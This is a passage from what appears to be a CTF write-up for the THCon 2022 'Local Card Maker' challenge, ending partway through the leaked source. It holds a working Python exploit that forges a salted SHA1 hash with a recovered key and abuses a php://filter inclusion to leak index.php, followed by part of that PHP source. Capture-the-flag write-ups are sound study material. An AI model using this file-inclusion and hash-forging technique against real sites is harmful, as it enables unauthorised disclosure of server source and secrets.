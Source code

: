 ![](/assets/images/posts/thcon-2k22-ctf-local-card-maker-writeup/6.png)
But this key isn’t enough to retrieve the flag from /flag.txt - we can’t load a .txt file since the `index.php` loader code appends `.php` to every Base64 payload we give it.

## Bonus - Leaking index.php File Contents

I wanted to make sure I understand how `index.php` works internally, so equipped with the secret key I leaked the content of index.php:

```python
import base64
import hashlib
import requests

php_file = b"index"
path = b"php://filter/convert.base64-encode/resource=%s" % (php_file,)
key_salt = b"Thcon_SuP3r_S3cr4t_K3y!"
buf = base64.encodebytes(path).replace(b"\n", b"")
buf_hash = hashlib.sha1(key_salt + buf).hexdigest()
buf = buf.decode()

print(requests.get("http://challenges1.thcon.party:2001/index.php?page=%s&pHash=%s" % (buf, buf_hash)).content)
```

The result is Base64-encoded `index.php`. Here it is after decoding, to better understand how this challenge works:

```php
<?php
session_start();
require("crypto.php");
$safe_handler = new IntegrityHandler($_SERVER['SECRET_KEY'], 'sha1');
define("LOCAL_ACCESS", 1);


function createHeaders($pArray, $handler){
	echo '<a href="/"><li>Home</li></a>';
	foreach($pArray as $p => $v){
		echo "<a href='/index.php?page=" . base64_encode($p) ."&pHash=" . $handler->secure_data(base64_encode($p)) . "' /><li>$v</li></a>";
	}
}

?>


<html>
<head>
	<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css">
	<link rel="stylesheet" type="text/css" href="css/style.css">
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Framework</title>
</head>
<body>
	<div class="headers">
		<div class="inner_headers">
			<div class="logo_c">
				<h1>Thcon22<span>Framework</span></h1>
			</div>
```